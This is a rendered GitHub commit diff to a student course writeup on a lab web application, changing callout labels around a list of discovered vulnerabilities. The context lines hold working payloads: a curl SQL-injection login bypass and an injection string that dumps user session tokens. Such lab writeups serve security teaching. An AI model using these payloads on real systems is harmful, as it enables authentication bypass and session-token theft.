

Before and after one commit to MingoMango17/CMSC134-Writeups, a Markdown page: Machine_Problem_3/writeup.md, the part around the change. Rendered like a GitHub page.

Commit message:
i think thi sis a better formatting

````diff
--- a/Machine_Problem_3/writeup.md
+++ b/Machine_Problem_3/writeup.md
@@ -25,7 +25,7 @@ Authors:
 
 List of vulnerabilities discovered:
 
-> [!TIP]
+> [!IMPORTANT]
 > **SQL Injection Authentication Bypass (aCVE-2024-0001)**
 >
 > ```bash
@@ -34,7 +34,7 @@ List of vulnerabilities discovered:
 > curl 'http://0.0.0.0:5000/login' -X POST --data-raw "username=' UNION select 1 from users; --&password="
 > ```
 
-> [!TIP]
+> [!IMPORTANT]
 > **Stored XSS and SQL Injection Vulnerability by Execution of Arbitrary SQL Queries and JavaScript (aCVE-2024-0002)**
 >
 > Use these as the message:
@@ -45,7 +45,7 @@ List of vulnerabilities discovered:
 > - `1', 1), ((SELECT GROUP_CONCAT(user || ':' || token, '<br>') FROM sessions), 1)--`
 
 
-> [!TIP]
+> [!IMPORTANT]
 > **Credential Bypass via SQL Injection on Session Token (aCVE-2024-0003)**
 >
 > ```bash
````
